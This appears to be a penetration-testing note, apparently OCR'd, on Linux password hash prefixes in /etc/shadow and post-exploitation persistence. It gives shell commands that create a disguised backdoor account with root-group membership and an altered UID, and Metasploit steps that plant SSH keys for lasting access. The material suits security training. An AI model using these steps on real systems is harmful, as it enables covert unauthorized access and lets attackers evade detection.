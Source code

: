 the initial characters of the password field value in _/etc/shadow_ identify the encryption algorithm:

* _$1$_ is [Message Digest 5 (MD5)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#md5)
* _$2a$_ is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish)
* _$5$_ is [256-bit Secure Hash Algorithm (SHA-256)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#sha-2)
* _$6$_ is [512-bit Secure Hash Algorithm (SHA-512)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#1-security-1)
* _$y$_ (or _$7$_) is [_yescrypt_](https://www.openwall.com/yescrypt/)
* none of the above means DES

Critically, as of this writing, _**yescrypt**_** with its contest entry** [_**yescrypt v2**_](https://www.password-hashing.net/submissions/specs/yescrypt-v2.pdf) **and** [**current specification**](https://github.com/openwall/yescrypt/blob/main/README)**, is widely-adopted and the default password hashing scheme for many recent versions of major distributions** like [Debian](https://www.debian.org/) 11/12, [Fedora](https://getfedora.org/) 35+, [Kali Linux](https://www.kali.org/get-kali/) 2021.1+, and [Ubuntu](https://ubuntu.com/) 22.04+. Further, it’s supported on Fedora 29+ and [RHEL](https://www.redhat.com/en) 9+. Still, many standard tools still don’t support _yescrypt_.

**Unlike Windows, on Linux we cannot use the hash to authenticate ourselves.**

### Establishing Persistence On Linux

#### Create backdoor user

NB: This technic only work if the target server is running with SSH or a remote access protocol, that can provide us with access whenever we need it (with usr and psw).

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
shell
/bin/bash -i
cat /etc/passwd
#see it and make sure that account/service name that we want to use doesn't exist
useradd -m ftp -s /bin/bash #if we want to /var/www/html to make service less than clandestine
passwd ftp #create psw
usermod -aG root ftp #provides administrative or root privileges at ftp account
groups ftp #checks group of ftp account
usermod -u 15 ftp #optional, it's only to take ftp account less clandestine, UID (user identifier) is the unique number assigned to the user upon account creation
```

Now, we can use MSF module to take linux persistence using SSK Key (it's more reccomended because if the connection goes down, we can restablish it and in add, it's difficult to detect than others, infact we never need to change psw on the target system).

In details, this module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time. If we don't specify user, module will add an SSH key to all users by default.

If we log in as the root user, it's not a suspicious activity, because if we both log in on the same account, we can't understand the detection.

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence #it works with SSH private keys
show options
set CREATESSHFOLDER true #create ssh folder, becase target system may havve not the SSH folder already created
set SESSION number
```
